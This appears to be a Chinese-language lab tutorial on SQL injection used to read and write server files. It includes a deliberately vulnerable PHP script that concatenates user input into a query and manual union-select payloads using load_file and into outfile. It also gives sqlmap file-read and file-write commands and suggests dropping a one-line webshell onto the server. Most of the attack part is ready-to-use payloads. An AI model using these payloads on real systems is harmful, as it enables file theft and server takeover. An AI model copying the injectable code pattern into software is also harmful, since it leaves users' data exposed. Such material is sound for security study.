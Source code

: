 ##SQL_injection File

###0x01
#####SQL注入中文件读取和写入简介

当在注入过程中，发现有注入点，且具有读写文件权限的话，就没有必要尝试登陆后台，找上传点传马了。
目标是读文件内容的话就直接读，若是其他目标的话，可以直接写个一句话或者直接写个shell进去。

>测试代码

```
	<?php
		error_reporting(E_ALL ^ E_NOTICE);
		include "config.php";
		
		$key = $_GET['key'];
		$select = mysql_query("SELECT * FROM users where username='".$key."'");
		while($row = mysql_fetch_array($select))
		{
			echo "$row[id]" . " " . "$row[username]" . " " . "$row[password]" . "</br>";
		}
	?>
```

>数据库结构

Tablename:users
```
	id		username		password
	1		admin			password
	2		xiaoming		123456
```

网站绝对路径：D:\Wamp\www\

###0x02
#####手工读取和写入文件

>读取

```
127.0.0.1/index.php?key=admin' order by 3 -- -
```
字段数为3

```
http://127.0.0.1/index.php?key=admin' and 1=2 union select 1,2,3 from users -- -
```
回显位1,2,3

```
http://127.0.0.1/index.php?key=admin' and 1=2 union select 1,2,load_file("D:\\1.txt") from users -- -
```
读取D:\\\1.txt文件，并在回显位3的位置显示


>写入

```
http://127.0.0.1/index.php?key=admin' and 1=2 union select 1,2,"abc" into outfile "D:\\2.txt"-- -
```
将"1 2 abc"写入D：\\\2.txt这个文件


###0x03
#####利用sqlmap读取和写入文件

>读取

```
sqlmap -u "http://127.0.0.1/index.php?key=admin" --file-read "D:\\1.txt"
```
读取D:\\\1.txt文件

>写入

```
sqlmap -u "http://127.0.0.1/index.php?key=admin" --file-write "D:\\1.txt" --file-dest "D:\\2.php"
```
将本机上D:\\\1.txt文件写入到服务器上D:\\\2.php中


</br></br>
-----------------------
PS:
sqlmap得到当前数据库
```sqlmap.py -u "url" --current-db```
sqlmap得到当前用户
```sqlmap.py -u "url" --current-user```


</br></br></br></br>
